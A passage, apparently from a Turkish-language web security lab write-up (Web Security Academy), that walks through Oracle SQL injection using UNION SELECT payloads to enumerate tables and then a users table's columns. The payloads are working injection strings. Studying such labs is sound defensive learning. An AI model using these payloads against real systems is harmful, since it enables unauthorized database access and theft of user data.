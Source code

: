 Daha sonra tablo isimlerini getiriyoruz. Buradaki tablo isimlerini kontrol ettiğimizde kullanıcılarla ilgili olan tablonun “**USERS_XEDOYY**” olduğunu görmekteyiz.

```python
mdisec' UNION SELECT table_name,null FROM all_tables --
```

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%205d98a1205cb7439db45c8e0570ab118e/Untitled%2029.png)

Şimdi de bu tablodan veri çekmeliyiz. Bunun için de bu şekilde ilerleyebiliriz. Burada da kolon isimlerini elde etmekteyiz.

```python
mdisec' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XEDOYY'--
```
